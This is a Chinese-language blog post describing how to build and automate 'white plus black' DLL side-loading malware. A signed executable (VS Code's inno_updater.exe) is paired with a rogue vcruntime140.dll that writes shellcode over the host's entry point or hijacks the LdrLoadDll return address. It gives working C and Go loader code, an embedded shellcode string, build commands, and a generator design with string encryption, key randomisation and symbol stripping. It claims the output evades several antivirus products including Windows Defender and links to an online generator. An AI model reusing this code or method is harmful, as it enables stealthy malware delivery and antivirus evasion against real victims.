










参考一些APT组织的攻击手法，它们在投递木马阶段有时候会使用“白加黑”的方式，通常它们会使用一个带有签名的白文件+一个自定义dll文件，所以研究了一下这种白加黑的实现方式以及如何将它自动化生成。
想法
最早源于知识星球的一个想法，利用一些已知的dll劫持的程序作为”模板”,自动生成白加黑的程序。

之后在看到了SigFlip的原理后 SigFlip使用和原理
有了这么一个想法，将shellcode写入到签名文件中的不被签名区域，黑dll的作用仅仅是读取白文件中的dll并执行。
同时制作几个白加黑的“模板”，可以根据不同的模板生成不同的白加黑样本。
概念图：

DLL劫持方式
大部分dll劫持只是在dll层面做一层转发，这样投递的话，要将整个软件一起打包，不然程序会运行出错。
而一些APT组织使用的白加黑样本仅仅只需要一个白文件和一个dll，所以dll的劫持方式和通常使用的是不一样的。
简单来说，我们需要让dll加载起来执行命令的同时，阻止它执行原程序的命令，总结了一下，一共有两种类型的dll需要处理，一种dll是存在于白程序的输入表中，一种是白程序输入表中不存在dll，但是它通过LoadLibrary进行加载的dll。
Pre-Load Dll 劫持
如果dll在白程序的输入表中，我称这种为pre-load dll(我自己发明的词语)。因为输入表的dll会优先于白程序运行，所以在dll在初始化时，可以先获取shellcode，然后对白程序的入口点进行改写，改写为执行shellcode即可。
用Vscode的更新程序inno_updater.exe作为例子

inno_updater.exe在运行时会带起vcruntime140.dll，所以它可以作为劫持的dll。

根据它输入表dll的导出函数，我们自动生成一份对应的导出函数，导出函数不需要任何功能，只要函数名称和它对应上即可。
之后在dllmain里面获取主程序的入口点，然后将shellcode写入入口点，之后主程序运行就会执行我们的shellcode了。
C代码如下
int WINAPI DllMain(HINSTANCE hInstance, DWORD fdwReason, PVOID pvReserved)
{
switch (fdwReason)
{
case DLL_PROCESS_ATTACH:
hello_func();
break;
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}
void hello_func()｛
DWORD baseAddress = (DWORD)GetModuleHandleA(NULL);
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)baseAddress;
PIMAGE_NT_HEADERS32 ntHeader = (PIMAGE_NT_HEADERS32)(baseAddress + dosHeader->e_lfanew);
DWORD entryPoint = (DWORD)baseAddress + ntHeader->OptionalHeader.AddressOfEntryPoint;
DWORD old;
VirtualProtect(entryPoint, size, 0x40, &old);
for(int i=0;i<size;i++){
*((PBYTE)entryPoint+i) = shellcode[i];
}
VirtualProtect(entryPoint, size, old, &old);
｝
Post-Load Dll劫持
dll在主程序导入表没有，而是程序通过LoadLibrary动态调用的，我称这类dll为post-load类型(我自己发明的词语)。
当程序使用LoadLibrary进行加载的时候，它的调用堆栈类似以下
KernelBase!LoadLibraryExW <- 要求动态模块加载
ntdll!LdrLoadDll
ntdll!LdrpLoadDll
ntdll!LdrpLoadDllInternal
ntdll!LdrpPrepareModuleForExecution
ntdll!LdrpInitializeGraphRecurse <- 建立依赖关系图
ntdll!LdrpInitializeNode
ntdll!LdrpCallInitRoutine
evil!DllMain <- 执行被传递给外部代码
所以此类dll劫持的,可以通过劫持ntdll的LdrLoadDll堆栈的返回地址，让程序LoadLibrary之后跳到我们的程序空间。
C语言代码
char evilstring[10] = {0x90};
DWORD ldrLoadDll = (DWORD)GetProcAddress(GetModuleHandle("ntdll"), "LdrLoadDll");
DWORD* stack =evilstring+(int)evilstring%4;
while (1)
{
stack++;
if(stack > ldrLoadDll + 0x1000){
printf("over\n");
break;
}
if (*stack > ldrLoadDll && *stack < ldrLoadDll + 0x1000) {
*stack = (DWORD)Memory;
break;
}
}
你可以使用内嵌汇编的方式获得堆栈地址，我使用C语言的一个特性，我申明了一个小的变量
char evilstring[10] = {0x90};
C语言会自动将它放到堆栈中，所以这个变量的地址即是堆栈的地址了。接着从堆栈向上寻找地址，如果发现地址和LdrLoadDll相差不多的话，就是我们寻找的LdrLoadDll的返回地址，hook它即可获得代码的执行权。
Golang与自动生成
我想用Golang编写劫持的dll，这样也方便可以做成在线平台。
C代码转换为Go
读取PE入口点用来写shellcode，用Windows API GetModuleHandle可以得到PE进程的内存地址，根据内存地址加减偏移就可以得到入口点。
我原本使用了github.com/Binject/debug/pe库，它里面有一个pe.NewFileFromMemory()函数，可以直接从内存中读取，但是它的参数是需要一个io类型，文件的io自身有很多api，但是对内存的io，资料好少。
最后找了很多资料，发现只能自己实现io的接口
type ReaderAt interface {
ReadAt(p []byte, off int64) (n int, err error)
}
但问题来了，ReadAt接口要求我们自己读完了就返回io.EOF，我是从内存空间读的，我不知道什么时候读完。
就这么纠结了好久，虽然现在写的时候想到了，我可以实现这个ReadAt，长度我可以生成模板的时候硬写进去，但又感觉没必要，因为我根据PE的偏移写好了。
直接就不用它的库了，手动根据偏移去寻找入口点。
var (
kernel32 = syscall.NewLazyDLL("kernel32.dll")
getModuleHandle = kernel32.NewProc("GetModuleHandleW")
procVirtualProtect = kernel32.NewProc("VirtualProtect")
)
func GetModuleHandle() (handle uintptr) {
ret, _, _ := getModuleHandle.Call(0)
handle = ret
return
}
// 将shellcode写入程序ep
func loader_from_ep(shellcode []byte) {
baseAddress := GetModuleHandle()
fmt.Println(strconv.FormatInt(int64(baseAddress), 16))
// pe读dos header
ptr := unsafe.Pointer(baseAddress + uintptr(0x3c))
v := (*uint32)(ptr)
ntHeaderOffset := *v
//ptr = unsafe.Pointer(baseAddress + uintptr(ntHeaderOffset) + uintptr(0x4))
//v2 := (*uint16)(ptr)
// 这个可以读取PE的架构信息，最后发现入口点的偏移都是固定的
// x32和x64通用
ptr = unsafe.Pointer(baseAddress + uintptr(ntHeaderOffset) + uintptr(40))
ep := (*uint32)(ptr)
fmt.Println(ep, *ep)
var entryPoint uintptr
entryPoint = baseAddress + uintptr(*ep)
var oldfperms uint32
if !VirtualProtect(unsafe.Pointer(entryPoint), unsafe.Sizeof(uintptr(len(shellcode))), uint32(0x40), unsafe.Pointer(&oldfperms)) {
panic("Call to VirtualProtect failed!")
}
WriteMemory(shellcode, entryPoint)
if !VirtualProtect(unsafe.Pointer(entryPoint), uintptr(len(shellcode)), uint32(oldfperms), unsafe.Pointer(&oldfperms)) {
panic("Call to VirtualProtect failed!")
}
}
Go实现DllMain
DllMain是dll在创建或退出时的消息函数，要把shellcode写入PE的入口点，就必须在这里执行代码。但是Go里面没有这样相关的定义，搜索资料，有人说用init()函数可以，我试了下，init()函数执行是在代码运行的时候加载的，也就是pe运行了，执行到了相关导出函数的时候，会先执行init()代码，但是这个时候写shellcode到PE头部就已经没用了。
最后发现了怎么做，就是混编C和Go,而且比较麻烦。
dllmain.go
package main
//#include "dllmain.h"
import "C"
dllmain.h
#include <windows.h>
extern void test();
BOOL WINAPI DllMain(
HINSTANCE _hinstDLL, // handle to DLL module
DWORD _fdwReason, // reason for calling function
LPVOID _lpReserved) // reserved
{
switch (_fdwReason) {
case DLL_PROCESS_ATTACH:
CreateThread(NULL, 0, test, NULL, 0, NULL);
break;
case DLL_PROCESS_DETACH:
// Perform any necessary cleanup.
break;
case DLL_THREAD_DETACH:
// Do thread-specific cleanup.
break;
case DLL_THREAD_ATTACH:
// Do thread-specific initialization.
break;
}
return TRUE; // Successful.
}
main.go
package main
import "C"
import (
"encoding/hex"
"fmt"
"strconv"
"syscall"
"unsafe"
)
const (
MEM_COMMIT = 0x00001000
MEM_RESERVE = 0x00002000
MEM_RELEASE = 0x8000
PAGE_READWRITE = 0x04
)
var (
kernel32 = syscall.NewLazyDLL("kernel32.dll")
getModuleHandle = kernel32.NewProc("GetModuleHandleW")
procVirtualProtect = kernel32.NewProc("VirtualProtect")
)
//WriteMemory writes the provided memory to the specified memory address. Does **not** check permissions, may cause panic if memory is not writable etc.
func WriteMemory(inbuf []byte, destination uintptr) {
for index := uint32(0); index < uint32(len(inbuf)); index++ {
writePtr := unsafe.Pointer(destination + uintptr(index))
v := (*byte)(writePtr)
*v = inbuf[index]
}
}
func GetModuleHandle() (handle uintptr) {
ret, _, _ := getModuleHandle.Call(0)
handle = ret
return
}
func VirtualProtect(lpAddress unsafe.Pointer, dwSize uintptr, flNewProtect uint32, lpflOldProtect unsafe.Pointer) bool {
ret, _, _ := procVirtualProtect.Call(
uintptr(lpAddress),
uintptr(dwSize),
uintptr(flNewProtect),
uintptr(lpflOldProtect))
return ret > 0
}
// 将shellcode写入程序ep
func loader_from_ep(shellcode []byte) {
baseAddress := GetModuleHandle()
ptr := unsafe.Pointer(baseAddress + uintptr(0x3c))
v := (*uint32)(ptr)
ntHeaderOffset := *v
ptr = unsafe.Pointer(baseAddress + uintptr(ntHeaderOffset) + uintptr(40))
ep := (*uint32)(ptr)
var entryPoint uintptr
entryPoint = baseAddress + uintptr(*ep)
var oldfperms uint32
if !VirtualProtect(unsafe.Pointer(entryPoint), unsafe.Sizeof(uintptr(len(shellcode))), uint32(0x40), unsafe.Pointer(&oldfperms)) {
panic("Call to VirtualProtect failed!")
}
WriteMemory(shellcode, entryPoint)
if !VirtualProtect(unsafe.Pointer(entryPoint), uintptr(len(shellcode)), uint32(oldfperms), unsafe.Pointer(&oldfperms)) {
panic("Call to VirtualProtect failed!")
}
}
//export _except_handler4_common
func _except_handler4_common() {}
//export memcmp
func memcmp() {}
//export memcpy
func memcpy() {}
//export memset
func memset() {}
//export memmove
func memmove() {}
//export test
func test() {
shellcode, err := hex.DecodeString("fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6a018d85b20000005068318b6f87ffd5bbf0b5a25668a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c6300") // calc的shellcode
if err != nil {
panic(err)
}
loader_from_ep(shellcode)
}
func main() {
}
编译脚本 (Windows上)
set GOOS=windows
set GOARCH=386
set CGO_ENABLED=1
go build -ldflags "-s -w" -o vcruntime140.dll -buildmode=c-shared
Golang与死锁
在DllMain DLL_PROCESS_ATTACH的时候，我想调用go里面的test函数，我必须使用线程。。如果直接调用，不使用线程的话，它会一直卡住，用od调试，发现它卡在了死锁上。。
Go程序内部调用了wait

用了CreateThread可以，但是这个时候它是先执行了入口点，而我们之前Pre-load的方式要求dll要在白程序之前执行。
我的解决方式是在白程序入口点写入死循环代码，同时启动一个线程执行go函数。
死循环的代码就随便发挥了
77C71B73 50 push eax
77C71B74 58 pop eax
77C71B75 ^ EB FC jmp short 77C71B73

消失的代码
有了之前被死锁的经验，post-load类型的dll我这样写的，用C代码搜索堆栈，如果找到了LdrLoadDll堆栈函数范围的地址则直接把堆栈地址修改成go函数的地址。
cgo中dllmain.h代码,因为测试了几次发现不行，加了个MessageBoxW代码方便调试。
#include <windows.h>
extern void test();
void dlljack2(){
char evilstring[10] = { 0x90 };
DWORD ldrLoadDll = (DWORD)GetProcAddress(GetModuleHandleA("ntdll"), "LdrLoadDll");
DWORD* stack = (DWORD)evilstring + (DWORD)evilstring % 4;
while (1)
{
stack++;
if ((DWORD)stack > ldrLoadDll + 0x1000) {
break;
}
if (*stack > ldrLoadDll && *stack < ldrLoadDll + 0x1000) {
*stack = (DWORD)test;
MessageBoxW(0,0,0,0);
break;
}
}
}
BOOL WINAPI DllMain(
HINSTANCE _hinstDLL, // handle to DLL module
DWORD _fdwReason, // reason for calling function
LPVOID _lpReserved) // reserved
{
switch (_fdwReason) {
case DLL_PROCESS_ATTACH:
MessageBoxW(0,0,0,0);
dlljack2();
break;
case DLL_PROCESS_DETACH:
// Perform any necessary cleanup.
break;
case DLL_THREAD_DETACH:
// Do thread-specific cleanup.
break;
case DLL_THREAD_ATTACH:
// Do thread-specific initialization.
break;
}
return TRUE; // Successful.
}
测试了几次发现不行，于是我用ida看了下代码。

*stack = (DWORD)test;
我的这行代码将test函数地址赋值给堆栈的代码竟然凭空消失了。
很百思不得其解，难道编译器不认识语法将代码给优化了？顺着这个思路，我换成用memcpy进行内存赋值，代码也没出现。
最后加上一个printf，代码就出现了。。

自动化生成器
前面核心的内容跑通了，后面自动化生成就是理所当然的，这方面没什么困难的，就是注意一下加一些对抗的东西，比如生成的源码里面的字符串全部加密，用于加解密shellcode的key全部随机化生成。将源码一起打包，并告诉编译方式，这样即使生成的dll被杀了也没关系，自己改改又可以继续了。
一些核心功能：
- 收集一些白加黑文件，制作成模板
- 解析白文件pe，将shellcode写入证书目录
- 根据模板来生成劫持dll
- go-strip进行符号混淆
- docker环境进行交叉编译
- 自动调用go命令进行编译
- 自动打包成zip
生成的文件会包含:
- 成品的白加黑文件
- 用于dll劫持的go源码文件，方便自行进行一些处理
- readme说明文件，说明了每个文件的作用以及编译方法

杀毒测试
测试了国内的几个都不杀，卡巴静态也能过，windows defender 也不杀也能正常上线。
并且白进程会一直驻留。

最后
demo地址:https://i.hacking8.com/dll-hijack